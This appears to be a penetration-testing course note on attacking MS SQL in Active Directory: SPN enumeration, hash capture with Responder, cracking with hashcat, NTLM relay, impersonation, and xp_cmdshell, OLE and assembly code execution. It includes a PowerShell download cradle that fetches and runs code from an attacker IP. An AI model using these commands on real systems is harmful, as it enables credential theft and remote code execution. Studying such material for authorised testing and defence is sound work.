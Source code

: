 #### MS SQL Enumeration

When a MS SQL server is running in the context of an Active Directory service account, it is
normally associated with a Service Principal Name (SPN). Threrefore a discreet way of locating instances of MS SQL in an Active Directory
environment is to query the domain controller for all registered SPNs related to MS SQL.

If we own a domain user, we can query the domain controller with the native **setspn** tool

-T is the domain flag 
```
C:\Tools> setspn -T corp1 -Q MSSQLSvc/*
Checking domain DC=corp1,DC=com
CN=SQLSvc,OU=Corp1ServiceAccounts,OU=Corp1Users,DC=corp1,DC=com
MSSQLSvc/appsrv01.corp1.com:1433
MSSQLSvc/appsrv01.corp1.com:SQLEXPRESS
MSSQLSvc/DC01.corp1.com:1433
```

#### MS SQL Authentication

Authentication in MS SQL is implemented in two stages. First, a traditional login is required. This
can be either an SQL server login or we can use Windows account-based authentication. SQL
server login is performed with local accounts on each individual SQL server. Windows
authentication on the other hand, works through Kerberos and allows any domain user to
authenticate with a Ticket Granting Service (TGS) ticket.

we may perform a login with the built-in SQL server sa account, which will map to
the datavase owner(dbo) account. If we perform a login with an account that has no associated SQL user
account, it will automatically be mapped to the built-in guest user account.

We can use SqlConnection class, [sqlconnect.cs](/13MSSQL/slqconnect.cs) to connect to the server. And run sql query.

#### UNC Path injection

We can force an SQL server with [forcesmb.cs](/13MSSQL/forcesmb.cs ) to connect to an SMB
share we control, the connection will include authentication data. If the hostname is given as an IP address, Windows will automatically revert to NTLM
authentication instead of Kerberos authentication.

on the attack machine, we need to set up the responder to catch the relay.

```
kali@kali:~$ sudo responder -I tap0

SQLSvc::corp1:00031db3ed40602b:A05501E7450025CF27120CE89BAF1C6E:0101000000000000C06531
50DE09D201F361A5C346497213000000000200080053004D004200330001001E00570049004E002D005000
.....
```
We can crack the NetNTLM hash with hashcat
```
kali@kali:~$ hashcat -m 5600 hash.txt dict.txt --force
```
#### relay the NetNTLM hash
First, we need to install impacket, and kali powershell
```
kali@kali:~$ sudo apt install python3-impacket
kali@kali:~$ sudo apt -y install powershell
```

invoke kali powershell to create base64encoded payload command 

```
kali@kali:~$ pwsh
PowerShell 7.0.

PS /home/kali> $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
PS /home/kali> $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
PS /home/kali> $EncodedText = [Convert]::ToBase64String($bytes)
PS /home/kali> $EncodedText
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
```

kick off netlm relay, and run our listener to catch the call back
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc payload'
```
#### Privilege Escalation

EXECUTE AS statement provides a way to execute a SQL query in the context of a different login or user. We could use this to escalate our ptivilege.

We can enumerate which logins allow impersonation, which get the this information using the database query
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals
b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
Putting in it a c# script, we have [enumimpernoate.cs](/13MSSQL/enumImpernoate.cs)

after running the code, i identify that the sa login allow impersonation, we will try to impersonate the sa login with EXECUTE AS LOGIN = sa. so we have [ImpersonateSA.cs](/13MSSQL/ImpernoateSA.cs)

However, a database user can only perform actions on a given database. This means that
impersonation of a user with sysadmin role membership in a database does not necessarily lead
to server-wide sysadmin role membership. To fully compromise the database server, the database user we impersonate must be in a
database that has the **TRUSTWORTHY** property set.

The only native database with the TRUSTWORTHY property enabled is **msdb**. As is the case with many databases, the database owner (dbo) user has the sysadmin role. we can update our ImpersonateSA c# script to [impersonateDBO.cs](/13MSSQL/ImpersonateDBO.cs )

#### Remote code execution with xp_cmdshell

The xp_cmdshell stored procedure spawns a Windows command shell and passes in a string that
is then executed. The output of the command is returned by the procedure. To do this, we’ll need to begin with the impersonation of the
sa login. After this, we’ll use the sp_configure stored procedure to activate the advanced options
and then enable xp_cmdshell. The full implementation is in [xpcmdshell.cs](/13MSSQL/xpcmdshell.cs)

#### Remote code execution with sp_OACreate and sp_OAMethod

We can also use the sp_OACreate and sp_OAMethod stored procedures to create and execute a new stored procedure based on [Object Linking and
Embedding](https://en.wikipedia.org/wiki/Object_Linking_and_Embedding)

SQL statement to create local variable and instantiate the OLE object.
```
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
```


sp_OAMethod prototype, take the name of the procedure(objecttoken), method of the OLE(methodname)->run, optional output variable,and parameters for the invoked method
```
sp_OAMethod objecttoken , methodname
[ , returnvalue OUTPUT ]
[ , [ @parametername = ] parameter [ OUTPUT ] [ ...n ] ]
```
The example source code, [soOAMethod.cs](/13MSSQL/spOAMethod.cs) which create a file in remote host. 

#### Custom Assemblies
If a database has TRUSTWORTHY property set, it’s possible to use the CREATE ASSEMBLY924 statement to import a managed DLL as an object inside the SQL server and execute methods within it.

- 1.We will first create a Class Library, [cmdExec](/13MSSQL/cmdExec.cs) in .NET for cmd execution
- 2.We can compiled the cs into dll and convert it to a hex string [toHex.ps1](/13MSSQL/toHex.ps1). The hex string can be embbeded inside the  create assembly statement for later use.
- 3.Create the c# code that query the sql remotely. [AssemblyLoad.cs](/13MSSQL/AssemblyLoad.cs), complied and run
- 4.Lastly, you can't call create assembly multipule times, you must remove it with [cleanup.cs](/13MSSQL/cleanup.cs)

#### SQL Link

When a link from one SQL server to another is created, the administrator must specify the
execution context that will be used during the connection. If the administrator chooses a specific SQL login and that login has sysadmin role membership,
we would obtain sysadmin privileges on the linked SQL server. This will be the case even if we
only have low privileged access on the original SQL server.

- 1.We need to enumerate servers linked to the current SQL server with [linkenum.cs](/13MSSQL/linkenum.cs). We can use sp_linkedservesr stored procedure returns a list of linked servers for us.
- 2.Check if possible to run command across the link using OPENQUERY, and check the security context. [checklink.cs](/13MSSQL/linkcheck.cs)
- 3.If you have sa permission over the link database, you could  execute PowerShell shellcode runner through a download cradle with the xp_cmdshell stored
procedure. [linkshellcode.cs](/13MSSQL/linkshellcode.cs)
